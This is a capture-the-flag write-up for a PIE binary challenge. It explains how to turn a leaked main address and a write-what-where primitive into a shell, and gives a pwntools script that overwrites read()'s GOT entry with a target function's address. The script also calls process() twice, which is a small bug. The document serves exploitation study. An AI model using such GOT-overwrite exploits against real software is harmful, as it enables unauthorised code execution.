 # Description
This is a position-independent binary which gives you a module address, and a trivial write-what-where.
Can you spawn a shell?

## Solution
This challenge is very similar to the previous but this time we have a PIE executable so we don't know where the GOT will be when the program is loaded in memory. Luckily the program leaks the address of the start of the main function, using that we can calculate the random offset at which the executable is loaded and thus obtain the addresses of the GOT and of out target function. We can then use those addresses to pwn the binary in the same way as the previous challenge.

```python
from pwn import *

context.binary = "./challenge"
p = process()

e = context.binary
p = process()

main_address = p.u32()

log.info(f"leaked main address {hex(main_address)}")

base_address = main_address - e.functions["main"].address

log.info(f"executable base {hex(base_address)}")

e.address += base_address

log.info(f"read() address {hex(e.got['read'])}")
log.info(f"target function address {hex(e.functions['oh_look_useful'].address)}")

p.send(p32(e.got["read"]))
p.send(p32(e.functions["oh_look_useful"].address))
p.recvline()
p.interactive()
```